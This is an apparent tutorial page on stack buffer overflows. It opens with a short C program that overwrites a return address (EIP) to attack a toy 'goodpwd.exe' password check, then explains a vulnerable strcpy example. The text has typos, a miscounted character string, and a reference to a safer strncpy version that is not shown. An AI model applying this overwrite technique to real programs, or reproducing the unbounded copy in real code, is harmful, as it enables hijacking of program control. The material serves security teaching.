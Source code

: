 # e - Buffer Overflows

\#include #include

int main(int argc, char \*argv\[]) { char command\[256]; char parameter\[128];

memset(parameter,0x41,22); // fill the parameter with 'A' character

// now modify the location which overwrites the EIP

parameter\[22]= 0x48; parameter\[23]= 0x15; parameter\[24]= 0x40; parameter\[25]= 0x00;

parameter\[26] = 0 ; /\* null terminate the parameter so as previous frames are not overwritten \*/

strcpy(command , "goodpwd.exe "); strcat(command, parameter);

printf("%s\n",command);

system(command); /\* execute the command \*/ return 0; }The term "buffer" is used to refer to any area in memory where more than one piece of data is stored. An overflow occurs when we try to fill more data than the buffer can handle. Buffer Overflow is a condition where a function attempts to copy more data into a buffer than it can hold.

Suppose the computer allocates a buffer of 40 bytes (or pieces) of memory to store 10 integers ( 4 bytes per integer). An attacker sends the computer 11 integers (a total of 44 bytes) as input. Whatever was in the location after the ten 40 bytes (allocated for our buffer), gets overwritten with the 11th integer of our input. Remember that the stack grows backward. Therefore the data in the buffer are copied from lowest memory addresses to highest memory addresses.

### Example 1

```c
int main(int argc, char **argv)
{
	argv[1] = (char*)"AAAAAAAAAAAAAAAAAAAAAAAAAAAA";
	char buffer[10];
	strcpy(buffer, argv[1]);
}
```

We see that argv\[1] contains 30 A characters, while the buffer can handle 10. We are calling the "strcpy" function to copy the value of the "argv\[1]" value into the "buffer" variable. When the program runs, the exceeding data has to go somewhere, and it will overwrite something in the memory. This is a Buffer Overflow since ther wasnt a condition to check for equality before copying.

The Program crashes, the vulnerable function is the "strcpy" function.

This means that whatever was in the memory location right after the buffer, is overwritten with our input.

In this example, it cause the application to crash, But an attacker may be able to crat the input in a way that the program executes specific code, allowing the attacker to gain control of the program flow.

But in this case, there will be no Buffer Overflow, because the data we can copy is limited by using the "srtncpy" function.
